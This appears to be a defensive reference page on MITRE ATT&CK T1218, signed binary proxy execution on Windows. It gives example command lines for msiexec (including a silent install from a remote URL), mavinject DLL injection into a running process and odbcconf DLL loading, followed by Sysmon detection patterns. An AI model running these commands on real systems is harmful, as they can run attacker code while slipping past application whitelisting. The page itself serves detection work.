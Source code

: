 # T1218: Signed Binary Proxy Execution

Binaries signed with trusted digital certificates can execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files. This behavior may be abused by adversaries to execute malicious files that could bypass application whitelisting and signature validation on systems. This technique accounts for proxy execution methods that are not already accounted for within the existing techniques.

## Msiexec.exe
Msiexec.exe is the command-line Windows utility for the Windows Installer. Adversaries may use msiexec.exe to launch malicious MSI files for code execution. An adversary may use it to launch local or network accessible MSI files. Msiexec.exe may also be used to execute DLLs.
```
msiexec.exe /q /i "C:\path\to\file.msi"
msiexec.exe /q /i http[:]//site[.]com/file.msi
msiexec.exe /y "C:\path\to\file.dll"
```
## Mavinject.exe
Mavinject.exe is a Windows utility that allows for code execution. Mavinject can be used to input a DLL into a running process.
```
"C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe" <PID> /INJECTRUNNING <PATH DLL>
C:\Windows\system32\mavinject.exe <PID> /INJECTRUNNING <PATH DLL>
```
## SyncAppvPublishingServer.exe
SyncAppvPublishingServer.exe can be used to run PowerShell scripts without executing powershell.exe.

## Odbcconf.exe
Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names. The utility can be misused to execute functionality equivalent to Regsvr32 with the REGSVR option to execute a DLL.
```
odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}
```
Several other binaries exist that may be used to perform similar behavior.

## Detection
```
Event 1
Sysmon Event ID = 1
Windows Security Event ID = 4688
process_command_line = "*mavinject*\/injectrunning*" or "mavinject32*\/injectrunning*" or "*certutil*script\:http\[\:\]\/\/*" or
                       "*certutil*script\:https\[\:\]\/\/*" or "*msiexec*http\[\:\]\/\/*" or "*msiexec*https\[\:\]\/\/*"

Event 2
Sysmon Event ID = 3
process_name = certutil.exe OR 
process_command_line = "*certutil*script\:http\[\:\]\/\/*" OR 
process_path = "*\\replace.exe"
```
